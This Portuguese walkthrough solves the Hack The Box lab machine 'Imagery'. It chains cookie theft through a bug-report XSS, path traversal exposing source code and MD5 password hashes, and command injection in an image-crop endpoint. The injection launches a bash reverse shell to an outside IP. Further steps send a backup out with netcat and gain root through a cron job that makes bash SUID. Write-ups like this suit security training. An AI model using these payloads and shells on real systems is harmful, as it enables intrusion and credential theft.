# CTF Imagery | Hack The Box

Máquina: Imagery  
Dificuldade: Média
Plataforma: Hack The Box


# Reconhecimento

Iniciamos com uma enumeração do host, utilizando o Nmap afim de identificar serviços expostos e portas ativas.

```
nmap -p- --min-rate 1600 -sVC -Pn --open 10.129.242.164
```

Obtendo as portas:

 

Em seguida, acessamos a aplicação web e nos deparamos com uma aplicação de galeria online


# Enumeração

Em seguida, decidimos por realizarmos um **fuzzing** de diretórios utilizando a ferramenta **ffuf**, para descobrirmos diretórios e arquivos ocultos.

```shell
ffuf -u http://10.129.242.164:8000/FUZZ -w SecLists/Discovery/Web-Content/big.txt -t 160
```

Obtendo os seguintes diretórios:



Ao navegarmos para o campo `Register` criamos uma conta e realizamos o `login` para obtermos acesso na aplicação sendo redirecionados para a sessão `Gallery`. 


Já no campo `Upload` vemos que a aplicação suporta vários tipo de arquivos de imagens 



Em seguida, fizermos o upload de uma imagem e ao clicarmos sobre os três pontos é visto que há várias opções de modificações desativadas havendo apenas as opções `Download` e `Delete` liberadas. 



# Exploração - Session Hijacking

Porém é visto que na parte inferior da aplicação há um campo para reportar bugs, é provável que pessoas com nível de  `Administrador` são responsáveis por receber e analisar esses reports então podemos iniciar um servidor e tentar extrair algum cookie de sessão com um `payload` de `XSS` no campo `Bug Details` .

Servidor: 
```bash
python -m http.server 80
```

Payload XSS: 

```html

```




Após um tempo, obtivermos o cookie de sessão no parâmetro `GET` com sucesso.

```shell
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.242.164 - - [19/May/2026 22:02:25] code 404, message File not found
10.129.242.164 - - [19/May/2026 22:02:25] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.ag0IEQ.-k0XqyUQVVoxB_JfzztPs2gyF9k HTTP/1.1" 404 -
```



Com esse cookie, utilizamos a ferramenta `DevTools` para alterar o cookie na aba `Storage` e atualizamos a página com isso obtemos acesso ao painel administrativo. 



Dentro do Painel é possível realizar o Download do logs do usuário `testuser@imagery.htb` em que é dado uma mensagem de erro.



Com essa mensagem de erro, é visto que há uma vulnerabilidade de `path traversal` em que nos possibilita ler arquivos no servidor a começar pelo arquivo `passwd`:



Em seguida, lemos o arquivo `proc/self/cmdline` em que retornou o caminho para o código-fonte da aplicação onde identificamos que se trata de um código `Python`



Com isso obtemos o `código-fonte` da aplicação através do caminho `/home/web/web/app.py`

Código `app.py`:

```python
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False

app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)

@app_core.route('/')
def main_dashboard():
    return render_template('index.html')

if __name__ == '__main__':
    current_database_data = _load_data()
    default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed']
    existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])}
    for collection_to_add in default_collections:
        if collection_to_add not in existing_collection_names_in_database:
            current_database_data.setdefault('image_collections', []).append({'name': collection_to_add})
    _save_data(current_database_data)
    for user_entry in current_database_data.get('users', []):
        user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log")
        if not os.path.exists(user_log_file_path):
            with open(user_log_file_path, 'w') as f:
                f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n")
    port = int(os.environ.get("PORT", 8000))
    if port in BLOCKED_APP_PORTS:
        print(f"Port {port} is blocked for security reasons. Please choose another port.")
        sys.exit(1)
    app_core.run(debug=False, host='0.0.0.0', port=port)
```



Como é mostrado no código acima é importado o `config.py` estando no mesmo diretório do código-fonte no qual podemos extraí-lo também.

```python
import os
import ipaddress

DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'

os.makedirs(UPLOAD_FOLDER, exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'converted'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'transformed'), exist_ok=True)
os.makedirs(SYSTEM_LOG_FOLDER, exist_ok=True)

MAX_LOGIN_ATTEMPTS = 10
ACCOUNT_LOCKOUT_DURATION_MINS = 1

ALLOWED_MEDIA_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff', 'pdf'}
ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff'}
ALLOWED_UPLOAD_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff',
    'application/pdf'
}
ALLOWED_TRANSFORM_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff'
}
MAX_FILE_SIZE_MB = 1
MAX_FILE_SIZE_BYTES = MAX_FILE_SIZE_MB * 1024 * 1024

BYPASS_LOCKOUT_HEADER = 'X-Bypass-Lockout'
BYPASS_LOCKOUT_VALUE = os.getenv('CRON_BYPASS_TOKEN', 'default-secret-token-for-dev')

FORBIDDEN_EXTENSIONS = {'php', 'php3', 'php4', 'php5', 'phtml', 'exe', 'sh', 'bat', 'cmd', 'js', 'jsp', 'asp', 'aspx', 'cgi', 'pl', 'py', 'rb', 'dll', 'vbs', 'vbe', 'jse', 'wsf', 'wsh', 'psc1', 'ps1', 'jar', 'com', 'svg', 'xml', 'html', 'htm'}
BLOCKED_APP_PORTS = {8080, 8443, 3000, 5000, 8888, 53}
OUTBOUND_BLOCKED_PORTS = {80, 8080, 53, 5000, 8000, 22, 21}
PRIVATE_IP_RANGES = [
    ipaddress.ip_network('127.0.0.0/8'),
    ipaddress.ip_network('172.0.0.0/12'),
    ipaddress.ip_network('10.0.0.0/8'),
    ipaddress.ip_network('169.254.0.0/16')
]
AWS_METADATA_IP = ipaddress.ip_address('169.254.169.254')
IMAGEMAGICK_CONVERT_PATH = '/usr/bin/convert'
EXIFTOOL_PATH = '/usr/bin/exiftool'
```



Após uma análise no código é visto que há a variável `DATA_STORE_PATH` com o valor  `db.json` no qual indica um caminho relativo para o banco de dados da aplicação em formato `JSON` que se encontra no mesmo diretório que os demais códigos, possibilitando extrai-lo via `path traversal`.

```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    "images": [],
    "image_collections": [
        {
            "name": "My Images"
        },
        {
            "name": "Unsorted"
        },
        {
            "name": "Converted"
        },
        {
            "name": "Transformed"
        }
    ],
    "bug_reports": []
}
```



Neste arquivo `JSON` vemos que contém as credenciais dos usuários `admin@imagery.htb` e `testuser@imagery.htb`. Em que as senhas estão codificadas em hash `MD5` no que podemos decodificar via [CrackStation](https://crackstation.net/) assim obtendo a senha apenas do usuário `testuser`. 

Senha:
```
iambatman
```



Voltando para as modificações de imagem que estão desativadas para o meu usuário, podemos analisar o código `api_edit` para sabermos o porque dessas opções estarem desativadas.

```python
from flask import Blueprint, request, jsonify, session
from config import *
import os
import uuid
import subprocess
from datetime import datetime
from utils import _load_data, _save_data, _hash_password, _log_event, _generate_display_id, _sanitize_input, get_file_mimetype, _calculate_file_md5

bp_edit = Blueprint('bp_edit', __name__)

@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    transform_type = request_payload.get('transformType')
    params = request_payload.get('params', {})
    if not image_id or not transform_type:
        return jsonify({'success': False, 'message': 'Image ID and transform type are required.'}), 400
    application_data = _load_data()
    original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not original_image:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to transform.'}), 404
    original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename'])
    if not os.path.exists(original_filepath):
        return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404
    if original_image.get('actual_mimetype') not in ALLOWED_TRANSFORM_MIME_TYPES:
        return jsonify({'success': False, 'message': f"Transformation not supported for '{original_image.get('actual_mimetype')}' files."}), 400
    original_ext = original_image['filename'].rsplit('.', 1)[1].lower()
    if original_ext not in ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM:
        return jsonify({'success': False, 'message': f"Transformation not supported for {original_ext.upper()} files."}), 400
    try:
        unique_output_filename = f"transformed_{uuid.uuid4()}.{original_ext}"
        output_filename_in_db = os.path.join('admin', 'transformed', unique_output_filename)
        output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db)
        if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
        elif transform_type == 'rotate':
            degrees = str(params.get('degrees'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-rotate', degrees, output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'saturation':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"100,{float(value)*100},100", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'brightness':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"100,100,{float(value)*100}", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'contrast':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"{float(value)*100},{float(value)*100},{float(value)*100}", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        else:
            return jsonify({'success': False, 'message': 'Unsupported transformation type.'}), 400
        new_image_id = str(uuid.uuid4())
        new_image_entry = {
            'id': new_image_id,
            'filename': output_filename_in_db,
            'url': f'/uploads/{output_filename_in_db}',
            'title': f"Transformed: {original_image['title']}",
            'description': f"Transformed from {original_image['title']} ({transform_type}).",
            'timestamp': datetime.now().isoformat(),
            'uploadedBy': session['username'],
            'uploadedByDisplayId': session['displayId'],
            'group': 'Transformed',
            'type': 'transformed',
            'original_id': original_image['id'],
            'actual_mimetype': get_file_mimetype(output_filepath)
        }
        application_data['images'].append(new_image_entry)
        if not any(coll['name'] == 'Transformed' for coll in application_data.get('image_collections', [])):
            application_data.setdefault('image_collections', []).append({'name': 'Transformed'})
        _save_data(application_data)
        return jsonify({'success': True, 'message': 'Image transformed successfully!', 'newImageUrl': new_image_entry['url'], 'newImageId': new_image_id}), 200
    except subprocess.CalledProcessError as e:
        return jsonify({'success': False, 'message': f'Image transformation failed: {e.stderr.strip()}'}), 500
    except Exception as e:
        return jsonify({'success': False, 'message': f'An unexpected error occurred during transformation: {str(e)}'}), 500

@bp_edit.route('/convert_image', methods=['POST'])
def convert_image():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    target_format = request_payload.get('targetFormat')
    if not image_id or not target_format:
        return jsonify({'success': False, 'message': 'Image ID and target format are required.'}), 400
    if target_format.lower() not in ALLOWED_MEDIA_EXTENSIONS:
        return jsonify({'success': False, 'message': 'Target format not allowed.'}), 400
    application_data = _load_data()
    original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not original_image:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to convert.'}), 404
    original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename'])
    if not os.path.exists(original_filepath):
        return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404
    current_ext = original_image['filename'].rsplit('.', 1)[1].lower()
    if target_format.lower() == current_ext:
        return jsonify({'success': False, 'message': f'Image is already in {target_format.upper()} format.'}), 400
    try:
        unique_output_filename = f"converted_{uuid.uuid4()}.{target_format.lower()}"
        output_filename_in_db = os.path.join('admin', 'converted', unique_output_filename)
        output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db)
        command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, output_filepath]
        subprocess.run(command, capture_output=True, text=True, check=True)
        new_file_md5 = _calculate_file_md5(output_filepath)
        if new_file_md5 is None:
            os.remove(output_filepath)
            return jsonify({'success': False, 'message': 'Failed to calculate MD5 hash for new file.'}), 500
        for img_entry in application_data['images']:
            if img_entry.get('type') == 'converted' and img_entry.get('original_id') == original_image['id']:
                existing_converted_filepath = os.path.join(UPLOAD_FOLDER, img_entry['filename'])
                existing_file_md5 = img_entry.get('md5_hash')
                if existing_file_md5 is None:
                    existing_file_md5 = _calculate_file_md5(existing_converted_filepath)
                if existing_file_md5:
                    img_entry['md5_hash'] = existing_file_md5
                    _save_data(application_data)
                if existing_file_md5 == new_file_md5:
                    os.remove(output_filepath)
                    return jsonify({'success': False, 'message': 'An identical converted image already exists.'}), 409
        new_image_id = str(uuid.uuid4())
        new_image_entry = {
            'id': new_image_id,
            'filename': output_filename_in_db,
            'url': f'/uploads/{output_filename_in_db}',
            'title': f"Converted: {original_image['title']} to {target_format.upper()}",
            'description': f"Converted from {original_image['filename']} to {target_format.upper()}.",
            'timestamp': datetime.now().isoformat(),
            'uploadedBy': session['username'],
            'uploadedByDisplayId': session['displayId'],
            'group': 'Converted',
            'type': 'converted',
            'original_id': original_image['id'],
            'actual_mimetype': get_file_mimetype(output_filepath),
            'md5_hash': new_file_md5
        }
        application_data['images'].append(new_image_entry)
        if not any(coll['name'] == 'Converted' for coll in application_data.get('image_collections', [])):
            application_data.setdefault('image_collections', []).append({'name': 'Converted'})
        _save_data(application_data)
        return jsonify({'success': True, 'message': 'Image converted successfully!', 'newImageUrl': new_image_entry['url'], 'newImageId': new_image_id}), 200
    except subprocess.CalledProcessError as e:
        if os.path.exists(output_filepath):
            os.remove(output_filepath)
        return jsonify({'success': False, 'message': f'Image conversion failed: {e.stderr.strip()}'}), 500
    except Exception as e:
        return jsonify({'success': False, 'message': f'An unexpected error occurred during conversion: {str(e)}'}), 500

@bp_edit.route('/delete_image_metadata', methods=['POST'])
def delete_image_metadata():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    if not image_id:
        return jsonify({'success': False, 'message': 'Image ID is required.'}), 400
    application_data = _load_data()
    image_entry = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not image_entry:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to modify.'}), 404
    filepath = os.path.join(UPLOAD_FOLDER, image_entry['filename'])
    if not os.path.exists(filepath):
        return jsonify({'success': False, 'message': 'Image file not found on server.'}), 404
    try:
        command = [EXIFTOOL_PATH, '-all=', '-overwrite_original', filepath]
        subprocess.run(command, capture_output=True, text=True, check=True)
        _save_data(application_data)
        return jsonify({'success': True, 'message': 'Metadata deleted successfully from image!'}), 200
    except subprocess.CalledProcessError as e:
        return jsonify({'success': False, 'message': f'Failed to delete metadata: {e.stderr.strip()}'}), 500
    except Exception as e:
        return jsonify({'success': False, 'message': f'An unexpected error occurred during metadata deletion: {str(e)}'}), 500
```



No qual descobrirmos que as funcionalidades de modificações de imagem se atribuem apenas para o usuário `testuser`  por meio desse trecho de código:

```python
if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
```

Em contra partida todos esses comandos são então passados para `subprocess.run`. No entanto a função `crop` é vulnerável a `command injection` pois não tem a devida sanitização

```python
if transform_type == 'crop': 
x = str(params.get('x')) 
y = str(params.get('y')) 
width = str(params.get('width')) 
height = str(params.get('height')) 
command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}" subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
```

# Exploração - Command Injection

Para explorarmos a vulnerabilidade de `Command Injection` primeiro devemos logar com o usuário `testuser` na aplicação com a credencial que obtemos:

```shell
"username": "testuser@imagery.htb",
"password": "iambatman"
```

Em seguida, realizamos o upload de uma imagem para que utilizamos o campo `Transform Image`



Interceptando a requisição com o `Burp Suite` podemos injetar um `payload` de `reverse shell` para possamos adentrar ao servidor.

Comando `Netcat`:

```shell
nc -lvnp 4444
```

Payload:
```shell
"|| bash -c 'sh -i >& /dev/tcp/10.10.14.161/4444 0>&1'||"
```



# Movimentação Lateral

Com a `reverse shell` estabelecida, identificamos que estamos como usuário `web`, no qual não possui privilégios de sudo, sendo preciso enumerar o host em busca de algo que nos possa obter privilégios sudo.



Podemos usar comandos para melhora-la:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL Z
stty -echo raw; fg
stty rows 38 columns 116
```

Após enumerar o sistema, encontramos dentro da pasta `/var/backup` um arquivo ZIP no que aparenta ser um arquivo backup do diretório `web`.  Sendo assim transferimos o arquivo para nosso host via `netcat`.

```shell
nc -w3 10.10.16.18 3333 < /var/backup/web_20250806_120723.zip.aes
```



Ao executar o arquivo, o programa é identificado como criador  `pyAesCrypt 6.1.1` porém é também mostrado que está encriptado por `AES` o que nos levou a usar a ferramenta  `dpyAesCrypt` para decriptar o arquivo, com os seguintes comandos:

Repositório `dpyAesCrypt`:

```shell
git clone https://github.com/Nabeelcn25/dpyAesCrypt.py.git
```

Obtendo a senha: `bestfriends`



Para extrair as informações desse arquivo utilizamos o comando `unzip`

```shell
unzip web_20250806_120723.zip -d extracted
```

Em seguida navegamos até o diretório que continha o conteúdo do diretório `web` , vendo que também havia um arquivo `db.json` e que provavelmente poderia conter credenciais



Ao analisarmos o arquivo encontramos as credenciais dos usuários `mark@imagery.htb` e `web@imagery.htb`: 



Como as senhas estão codificadas em `MD5`, utilizamos novamente o [CrackStation](https://crackstation.net/)  para decifrar as hashes assim obtendo as senhas do usuários.

```
# usuario mark

"username": "mark@imagery.htb",
"password": "supersmash",

# usuario web
"username": "web@imagery.htb",
"password": "spiderweb1234",
```

Em seguida, com a senha do usuário `mark@imagery.htb` conseguimos mudar de usuário e obter a `user flag` no arquivo `user.txt`:



# Escalação de Privilégio

Utilizamos o comando `sudo -l` para verificar as permissões de execução de comandos do usuário `mark`, e identificamos que o executável `charcol` responsável por criar arquivos de `backups` criptografados.



Executando o `charcol` percebemos que há uma opção de o executarmos com uma `shell` interativa através do comando `charcol shell` .



Ao executar novamente o  `charcol` mas sem senha,  usamos o comando `help` para listar todos os comandos possíveis e um deles nos permite adicionar uma nova tarefa  `cron`  com o comando `auto add`. 



Com isso executamos uma tarefa `cron` no qual será executado a cada minuto, nos possibilitando de  obter `root`: 

```shell
auto add --schedule "* * * * *" --command "bash -c 'cp /bin/bash /home/mark/bash; chmod u+s /home/mark/bash'" --name escalate
```



Em seguida, Conseguimos a `root flag` contida no diretório `root` e arquivo `root.txt`


